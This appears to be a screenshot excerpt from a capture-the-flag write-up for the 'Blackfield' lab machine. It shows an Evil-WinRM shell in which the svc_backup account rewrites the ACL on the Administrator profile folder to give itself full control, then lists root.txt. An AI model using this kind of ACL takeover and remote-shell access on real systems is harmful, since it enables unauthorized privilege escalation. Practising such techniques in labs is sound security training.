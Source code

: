 
Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:P(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)



[+] Changing permissions to c:\users\administrator
[+] Acls changed successfully.


Path   : Microsoft.PowerShell.Core\FileSystem::C:\users\administrator
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         BLACKFIELD\Administrator Allow  FullControl
         BLACKFIELD\svc_backup Allow  FullControl
Audit  :
Sddl   : O:SYG:SYD:PAI(A;OICI;FA;;;SY)(A;OICI;FA;;;BA)(A;OICI;FA;;;LA)(A;OICI;FA;;;S-1-5-21-4194615774-2175524697-3563712290-1413)



*Evil-WinRM* PS C:\> dir c:\Users\Administrator\Desktop\root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/5/2020   8:38 PM             32 root.txt


*Evil-WinRM* PS C:\> 
